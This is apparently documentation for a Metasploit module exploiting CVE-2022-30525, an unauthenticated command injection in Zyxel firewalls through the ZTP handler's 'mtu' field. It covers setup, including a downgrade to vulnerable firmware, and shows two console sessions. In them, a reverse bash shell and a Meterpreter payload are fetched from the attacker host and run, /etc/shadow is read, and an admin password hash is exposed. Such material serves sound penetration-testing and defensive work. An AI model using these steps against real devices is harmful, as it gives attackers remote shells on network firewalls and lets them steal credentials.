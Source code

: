 ## Vulnerable Application

### Description

This module exploits CVE-2022-30525, an unauthenticated remote
command injection vulnerability affecting Zyxel firewalls with zero
touch provisioning (ZTP) support. By sending a malicious `setWanPortSt`
command containing an `mtu` field with a crafted OS command to the
`/ztp/cgi-bin/handler` page, an attacker can gain remote command execution
as the `nobody` user.

Affected Zyxel models are:

* USG FLEX 50, 50W, 100W, 200, 500, 700 using firmware 5.21 and below
* USG20-VPN and USG20W-VPN using firmware 5.21 and below
* ATP 100, 200, 500, 700, 800 using firmware 5.21 and below

### Setup

The vulnerable system is a hardware firewall/vpn that, to our knowledge,
cannot be emulated. As such, testing requires a physical device. Once the
device has been acquired, you'll need to accomplish the following:

* Once powered on, register the device with Zyxel. You cannot do anything
with the device until this is accomplished. Fortunately, the web interface
will force you to complete this process. You'll need to create an account at
https://portal.myzyxel.com and the firewall will need internet connectivity
to complete the process.

* Once the device is up to date, you'll need to downgrade the firmware. From
portal.myzyxel.com you can download old firmware from:

Devices Management -> Firmware Download

From there you can select model and version to download. The last vulnerable
version from the affected systems is 5.21 Patch 1.

* Once you are using the vulnerable version, there is no special configuration
you need to exploit from the LAN. If you want to exploit from the WAN, you'll
need to enable "HTTP" and/or "HTTPS" through the firewall. From the web interface
do:

Configuration -> Objects -> Service -> Service Group -> Default_Allow_WAN_To_ZyWALL

And move "HTTP" and/or "HTTPS" from the left column to the right. After applying
the firewall should pass HTTP/HTTPS through the firewall to the web interface.

* That's it. You are good to go.

## Verification Steps

* Follow setup steps above.
* Do: `use exploit/linux/http/zyxel_ztp_rce`
* Do: `set RHOST <ip>`
* Do: `set LHOST <ip>`
* Do: `check`
* Verify the remote host is vulnerable.
* Do: `run`
* Verify the module acquires a root shell

## Options

## Scenarios

### Successful exploitation of USG Flex 100 using firmware 5.21 for a reverse sh shell as nobody

```
msf6 > use exploit/linux/http/zyxel_ztp_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/zyxel_ztp_rce) > set RHOST 10.0.0.14
RHOST => 10.0.0.14
msf6 exploit(linux/http/zyxel_ztp_rce) > set LHOST 10.0.0.28
LHOST => 10.0.0.28
msf6 exploit(linux/http/zyxel_ztp_rce) > run

[*] Started reverse TCP handler on 10.0.0.28:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. This was determined by the model and build date: USG FLEX 100, 220315042158
[*] Executing Shell Dropper for cmd/unix/reverse_bash
[*] Sending exploit to /ztp/cgi-bin/handler
[*] Command shell session 1 opened (10.0.0.28:4444 -> 10.0.0.14:48153 ) at 2022-05-09 14:06:47 -0700
[+] Exploit successfully executed.

id
uid=99(nobody) gid=10003(shadowr) groups=99,10003(shadowr)
cat /etc/shadow
root:***:12396:0:99999:7:::
bin:***:12396:0:99999:7:::
daemon:***:12396:0:99999:7:::
adm:***:12396:0:99999:7:::
lp:***:12396:0:99999:7:::
sync:***:12396:0:99999:7:::
shutdown:***:12396:0:99999:7:::
halt:***:12396:0:99999:7:::
mail:***:12396:0:99999:7:::
news:***:12396:0:99999:7:::
uucp:***:12396:0:99999:7:::
operator:***:12396:0:99999:7:::
games:***:12396:0:99999:7:::
ftp:***:12396:0:99999:7:::
sshd:***:12396:0:99999:7:::
nobody:***:12396:0:99999:7:::
debug:***:12396:0:99999:7:::
#deadbeaf  Don't remove this line
admin:$5$52TVVua8$64kGlcP7$tNKPUArLMHZtmYy84GwUviNYNwBmDkLQ+cKkP9ToPRZqbAA3tgyfRd58rutqhxl36xVWYYRs5GhzX9Hd3ID9PvH5/F7RH0jPRLlug3+TecNkofrbDf3XOan3L8ZeChhzudZgUkP9A4sXfm6dEXguZ2+nLj98gyh7W8dl2/g+h3giNWW9Qsp1JdvaC3wIV53nlZ4p8JEPbswfsJ+KNEsb8AHajPfE+MVT4iTT9OhxPQnwMYaVhyRfauJeUrLtDHDzZq+bvHfmTp4NxUWOjwbXlBa7D6dRD21U3KW9btQM3SMDMSiwZGX1bo5Bu09lWiyzEPPIsy3n7Jsw+W818cZQm7I4b/BMn5tmdkafJz3uCw4$:19121:0:99999::::
ldap-users:***:19121:0:99999::::
radius-users:***:19121:0:99999::::
ad-users:***:19121:0:99999::::
ua-users:***:19121:0:99999::::
cloud-users:***:19121:0:99999::::
```

### Successful exploitation of USG Flex 100 using firmware 5.21 for a reverse Meterpreter shell as nobody

```
msf6 > use exploit/linux/http/zyxel_ztp_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/zyxel_ztp_rce) > set RHOST 10.0.0.14
RHOST => 10.0.0.14
msf6 exploit(linux/http/zyxel_ztp_rce) > set LHOST 10.0.0.28
LHOST => 10.0.0.28
msf6 exploit(linux/http/zyxel_ztp_rce) > set target 1
target => 1
msf6 exploit(linux/http/zyxel_ztp_rce) > run

[*] Started reverse TCP handler on 10.0.0.28:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. This was determined by the model and build date: USG FLEX 100, 220315042158
[*] Executing Linux Dropper for linux/mips64/meterpreter_reverse_tcp
[*] Using URL: http://10.0.0.28:8080/vFiLDBVYvqzd
[*] Sending exploit to /ztp/cgi-bin/handler
[*] Client 10.0.0.14 (curl/7.70.0) requested /vFiLDBVYvqzd
[*] Sending payload to 10.0.0.14 (curl/7.70.0)
[*] Meterpreter session 1 opened (10.0.0.28:4444 -> 10.0.0.14:48159 ) at 2022-05-09 14:11:29 -0700
[+] Exploit successfully executed.
[*] Command Stager progress - 100.00% done (114/114 bytes)
[*] Server stopped.

meterpreter > shell
Process 25619 created.
Channel 1 created.
id
uid=99(nobody) gid=10003(shadowr) groups=99,10003(shadowr)
uname -a
Linux usgflex100 3.10.87-rt80-Cavium-Octeon #2 SMP Tue Mar 15 05:14:51 CST 2022 mips64 Cavium Octeon III V0.2 FPU V0.0 ROUTER7000_REF (CN7020p1.2-1200-AAP) GNU/Linux
cat /proc/cpuinfo
system type		: ROUTER7000_REF (CN7020p1.2-1200-AAP)
machine			: Unknown
processor		: 0
cpu model		: Cavium Octeon III V0.2  FPU V0.0
BogoMIPS		: 2400.00
wait instruction	: yes
microsecond timers	: yes
tlb_entries		: 256
extra interrupt vector	: yes
hardware watchpoint	: yes, count: 2, address/irw mask: [0x0ffc, 0x0ffb]
isa			: mips1 mips2 mips3 mips4 mips5 mips64r2
ASEs implemented	: vz
shadow register sets	: 1
kscratch registers	: 4
core			: 0
VCED exceptions		: not available
VCEI exceptions		: not available

processor		: 1
cpu model		: Cavium Octeon III V0.2  FPU V0.0
BogoMIPS		: 2400.00
wait instruction	: yes
microsecond timers	: yes
tlb_entries		: 256
extra interrupt vector	: yes
hardware watchpoint	: yes, count: 2, address/irw mask: [0x0ffc, 0x0ffb]
isa			: mips1 mips2 mips3 mips4 mips5 mips64r2
ASEs implemented	: vz
shadow register sets	: 1
kscratch registers	: 4
core			: 1
VCED exceptions		: not available
VCEI exceptions		: not available
```
